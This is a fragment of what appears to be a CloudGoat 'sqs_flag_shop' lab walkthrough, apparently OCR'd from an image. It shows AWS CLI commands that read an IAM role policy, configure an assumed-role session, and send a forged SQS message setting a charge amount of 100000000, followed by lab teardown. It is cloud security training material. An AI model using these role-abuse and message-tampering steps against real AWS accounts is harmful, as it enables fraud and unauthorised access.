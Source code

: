```bash
    ]
}
aws iam get-role-policy --role-name cg-sqs-send-message-cgid8as1kkguen --profile sqsuser --policy-name cg-sqs

#Configure the role
aws configure --profile sqssuper
aws configure set profile.sqssuper.aws_session_token TOKENGOESHERE

#Use SQS
aws sqs get-queue-url --profile sqssuper --queue-name cash_charging_queue
aws sqs send-message --profile sqssuper --queue-url https://sqs.us-east-1.amazonaws.com/381491899745/cash_charging_queue --message-body '{"charge_amount" : 100000000}'

#Destroy
cloudgoat destroy sqs_flag_shop
```


```

```
